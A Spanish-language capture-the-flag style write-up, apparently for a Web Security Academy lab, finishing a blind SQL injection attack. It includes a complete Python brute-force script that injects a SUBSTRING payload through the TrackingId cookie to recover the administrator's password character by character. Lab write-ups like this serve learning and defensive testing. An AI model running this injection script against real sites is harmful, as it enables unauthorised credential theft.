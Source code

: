 En esta última parte completamos la explotación de la inyección SQL ciega mediante la extracción carácter a carácter del campo ‘**password**‘.

Utilizamos Burp Intruder para automatizar el proceso, iterando sobre posiciones y posibles valores hasta reconstruir por completo la contraseña. Aprendes a usar funciones como ‘**SUBSTRING**‘ y a reconocer las respuestas válidas para cada intento.

Una vez extraída la contraseña, accedemos con ella como administrador para completar el laboratorio.

![Pasted_image_20250702183649.png](Imagenes/Pasted_image_20250702183649.png)
![Pasted_image_20250702184020.png](Imagenes/Pasted_image_20250702184020.png)
codigo llamado sqli.py
#!/usr/bin/env python3
from pwn import *
from termcolor import colored 
import requests 
import sys
import signal
import string
import time

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 

p1 = log.progress("SQLI")

def makeSQLI():

    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters: 
            cookies = {
                'TrackingId': f"@tYdW3Ti@pJdmnVo' and (select substring(password,{position},1) from users where username='administrator')='{character}' -- ",
                'session': "xkwHU4bggBmEx0ijIEHAYx0fgb60eemG"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0afd00540433ac10815c1df5003a00c5.web-security-academy.net", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()

Resultado
![Pasted_image_20250702190437.png](Imagenes/Pasted_image_20250702190437.png)
![Pasted_image_20250702190536.png](Imagenes/Pasted_image_20250702190536.png)
